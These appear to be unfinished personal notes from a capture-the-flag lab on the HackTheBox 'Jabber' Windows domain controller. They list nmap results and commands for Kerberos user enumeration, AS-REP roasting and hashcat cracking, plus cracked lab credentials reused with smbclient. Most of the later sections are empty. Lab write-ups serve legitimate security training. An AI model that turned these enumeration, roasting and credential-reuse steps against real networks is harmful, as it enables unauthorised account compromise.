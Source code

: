 ## Jabber Machine - Windows

- [+]	Target IP
   >>	:10.10.11.4


## Recon
```nmap
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5222/tcp  open  xmpp-client
5223/tcp  open  hpvirtgrp
5262/tcp  open  unknown
5263/tcp  open  unknown
5269/tcp  open  xmpp-server
5270/tcp  open  xmp
5275/tcp  open  unknown
5276/tcp  open  unknown
5985/tcp  open  wsman
7070/tcp  open  realserver
7443/tcp  open  oracleas-https
7777/tcp  open  cbt
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49673/tcp open  unknown
49690/tcp open  unknown
49691/tcp open  unknown
49694/tcp open  unknown
49701/tcp open  unknown
49773/tcp open  unknown
50465/tcp open  unknown

```
- [+] Port enum :	
   >>	Port 7070 openfire binding service 
   >>	5222/tcp open  xmpp-client
   >>	5269/tcp open  xmpp-server
   >>	53/tcp open  domain  Simple DNS Plus
   >>	88/tcp open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-06-21 23:04:52Z)
   
   kerbrute userenum -d jab.htb --dc dc01.jab.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 

   >>	135/tcp open  msrpc      Microsoft Windows RPC
   >>	593/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
   >>   389/tcp open  ldap          Microsoft Windows Active Directory LDAP 
		(Domain: jab.htb0., Site: Default-First-Site-Name)
		|_ssl-date: 2024-06-21T23:13:12+00:00; +4s from scanner time.
		| ssl-cert: Subject: commonName=DC01.jab.htb
   >>	445/tcp open  microsoft-ds
	Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

   >>	xmpp server connect to it with pidgin 
	search plugin shows users that already got with kerbrute
	maybe need to bruteforce users with same password as their username ?
	trying kerberoasting with users
   >>	
   >>	
   >>	
   >>	
hashcat -m 18200 file.hash /usr/share/wordlists/rockyou.txt --show
$krb5asrep$23$jmontgomery@JAB.HTB:1f25578988d68d430464bd51517906bb$98a20065c46c0a0a3acacd7be3dff0d020f61c1f88ee09a41ce9e1ead202d380b29ca0fe00657f01387c9e187f23a9ef863abc108ce73cb952b08fc8acbccac17d2c346aae9cbc250a01f3e18fb94f32f4afcb02102d551b33d261182de8d43cebdb7198e2e033e12774a3eea85dc5ed522d4475b17f097fb713a7c7818501efc801055ba834bdcfd3a67ec236cefff2e000e0fa7e52db1856119f0dd5d03a878dbcb448e70d1ba8011cbf019510575f851f72867ca29093b36be4c345d39baf90b7ee3f021538d77ee2d53b0a7c6953702431dd25ea75e2770a947fc288cd6f4231:Midnight_121

jmontgomery:Midnight_121 ## user in pidgin showwed a pentest room showing tgs 

svc_openfire:!@#$%^&*(1qazxsw 

smbclient -L  //10.10.11.4/ -U svc_openfire%!@#$%^&*(1qazxsw

smbclient -L  //10.10.11.4/ -U jmontgomery%Midnight_121
smbclient //10.10.11.4/SYSLOG -U jmontgomery%Midnight_121

## Foothold
jab.htb/jmontgomery:Midnight_121

## User Privesc	


## Root 









python3-impacket/examples/GetNPUsers.py jab.htb/ -usersfile users.txt -format hashcat -outputfile

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

